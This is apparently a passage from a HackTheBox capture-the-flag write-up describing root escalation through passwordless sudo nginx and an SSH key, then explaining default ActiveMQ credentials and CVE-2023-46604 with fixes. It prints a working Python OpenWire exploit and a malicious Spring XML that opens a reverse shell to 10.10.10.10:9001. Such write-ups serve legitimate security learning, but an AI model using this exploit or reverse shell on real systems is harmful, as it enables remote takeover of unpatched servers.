

Yey! We got user-level access and I wanted an bash (metasploit shell sucks!) so I used `shell` command to spawn one. As we already are a user, I started my search for user flag and I did found it in home directory.



### Privilege Escalation: Get the root

It is not mandatory to hide the flag, but I will do it so you all first try pwning the system by yourself and do not just answer the flag to solve the machines. If you are thinking to brute-force the flag with starting 3 characters shown, then all the best with all those billions of possible combinations.

Without wasting any time, I started exploring different ways for privilege escalation and started looking for thinks I can run with sudo command and binaries with SUID bit on. I didn't found anything serious on binaries with SUID bit on, they all were normal binaries, but I did found a very interesting thing with the sudo thing.

**Commands I performed:**

```
sudo -l
find / -perm -u=s 2>/dev/null
```

Running the above mentioned commands, I was able to find all available commands that I can run as a sudo user and all binaries that have SUID set. 



Wow, I can run `nginx` command under sudo without any need for password. That looks great, so I started searching for exploits that can guide me with this. I was somewhat sure that I have to mess around with the nginx configuration file, but I still wanted to see a perfect exploit for it.



I found many exploits, but this one on github looked similar to what I thought. I didn't wanted to copy paste it, so I made similar exploit to this one by understanding it, but for the purpose of the HackTheBox, you all can use this exploit.

**Links:**
1. [nginx-exploit](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)

Major part in the exploit is dav-methods, and I have provided a easy-to-understand description on the exploit in the conclusion section. You can create your own exploit after reading that, till then just keep this exploit in your attention.



You might find problems in writing an exploit through metasploit's shell. So, here is one way of writing exploits, and I have used *cat << E >*, instead of *cat << EOF >* because we are already typing EOF in the exploit so I didn't wanted to mess things up. What it does is, as soon as I enter 'E', it will take it as End Of File and send me back to the shell after saving the exploit.

To summary, this exploit will create a malicious configuration file for nginx service, it will tell nginx to use that configuration file. Then it will generate a pair of SSH keys, and will print out private key to us so we can use it to login to the root user through SSH. 



Copy the private key which is printed by the exploit, and save it somewhere. I am personally saving it in a directory named .sshkey as root_key name.




Yey!! We are root now. We were able to successfully perform privilege escalation using a SSH backdoor, and now we will find for the root flag, then we are done.



___
## Conclusion - The epilogue

In this section, I will provide a descriptive explaination for the vulnerabilities identified and exploits that were used. Any extra information that is not directly linked with the machine will be shared in this section. This is very crucial section, as it will cover the true understanding behind the hack.

### Vulnerabilities

#### 1. Default Credentials
After our Ports and Services scan, we opened the website where it asked for username and password to access the website, and we randomly entered the default credentials which gave us access to the website. It is very crucial that we do not use default credentials anywhere, because if we consider the hack again, then it were the default credentials that initially gave us more information about the website.

In a situation where the website do not use default credentials, an attacker will face difficulty in breaching a system, and many a times he might even give up. 

##### Fix: remove default credentials
1. Locate the `jetty-realm.properties` file in the `conf` directory of your ActiveMQ installation.
2. Open the `jetty-realm.properties` file in an editor.
3. The default credentials are typically defined as `admin:admin,admin`.
4. Modify the line to include your new password. For instance, to change the password to `mynewpass@123`, the line would become `admin:mynewpass@123,admin`.
5. Format of the line: `username:password,rolename` you can edit this line as per your needs.

### 2. Remote Code Execution (RCE)
CVE-2023-46604 is a Remote Code Execution (RCE) vulnerability with a CVSS score of 9.8 indicating critical severity, per the National Vulnerability Database. Specifically, the Java OpenWire protocol marshaller is vulnerable to this CVE. It allows a remote attacker with network access to either a Java-based OpenWire broker (ActiveMQ) or client to run arbitrary shell commands by manipulating serialized class type in the OpenWire protocol to cause either the client to the broker to instantiate any class on the classpath.

#### How Does CVE-2023-46604 work?
The exploit process works in two stages. Firstly, the adversary establishes a connection to ActiveMQ via the OpenWire protocol, which is running most of the times on 61616 port. Then a carefully crafted OpenWire packet is sent to the system, where the attacker prompts the system to unmarshall a class they control. 

The OpenWire protocol request originates from the adversary, but the request to load a remote class configuration file originates from the victim. The only known exploit uses **ClassPathXmlApplicationContext** to load a malicious XML application configuration file from somewhere.

#### Exploit Source - Do Not Copy
```
import socket 
import argparse 
 
def main(ip, port, url): 
    if not ip or not url: 
        print("Usage: script.py -i <ip> -p <port> -u <url>") 
        return 
     
    class_name = "org.springframework.context.support.ClassPathXmlApplicationContext" 
    message = url 
 
    header = "1f00000000000000000001" 
    body = header + "01" + int2hex(len(class_name), 4) + string2hex(class_name) + "01" + int2hex(len(message), 4) + string2hex(message) 
    payload = int2hex(len(body) // 2, 8) + body 
    data = bytes.fromhex(payload) 
 
    print("[*] Target:", f"{ip}:{port}") 
    print("[*] XML URL:", url) 
    print() 
    print("[*] Sending packet:", payload) 
 
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    conn.connect((ip, int(port))) 
    conn.send(data) 
    conn.close() 
 
def string2hex(s): 
    return s.encode().hex() 
 
def int2hex(i, n): 
    if n == 4: 
        return format(i, '04x') 
    elif n == 8: 
        return format(i, '08x') 
    else: 
        raise ValueError("n must be 4 or 8") 
 
if __name__ == "__main__": 
    parser = argparse.ArgumentParser() 
    parser.add_argument("-i", "--ip", help="ActiveMQ Server IP or Host") 
    parser.add_argument("-p", "--port", default="61616", help="ActiveMQ Server Port") 
    parser.add_argument("-u", "--url", help="Spring XML Url") 
    args = parser.parse_args() 
     
    main(args.ip, args.port, args.url)
```

**Malicious XML:**
```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

I have given a POC exploit above, where in the exploit part the main parts are as follow:
1. **class_name** - It is a string that contains the name of a Spring class (ClassPathXmlApplicationContext). This class is part of the Spring Framework and is responsible for loading Spring configuration files.
2. **header** - A fixed value as part of the payload
3. **body** - It is the body of the payload that includes header, int2hex length of class_name which is added to the string2hex class_name and then repeated the same process.
4. **payload** - This is where magic happens.

I also decided to share crucial part of XML malicious file, but for more detail JOIN my discord server for more detailed information, which will be available there.

**XML Crucial parts (Malicious):**
1. `class=java.lang.ProcessBuilder` - This is a class defined under XML file, and this module can be used to execute system commands.
2. `<value>bash -i...` - This statement opens a reverse shell, which is just one example what harm one can do.

#### Fix: avoid RCEs
The most recommended practice is to update your Apache ActiveMQ version to the followings:
- 5.15.16
- 5.16.7
- 5.17.6
- 5.18.3

An alternative option could be to disable OpenWire. This will limit attacks, but also restrict functionality. It can also be made possible that network access is restricted to a bunch of friends only, this would help to reduce the attack surface.

Any further updates in this machine, such as new ways to exploit, new vulnerabilities, or even new fixes will be shared here only, thanks for reading my writeup. Want detailed understanding, or has any query then join my discord, its free.

[DISCORD - CYBER X ARMY](https://discord.gg/wyfwSxn3YB)

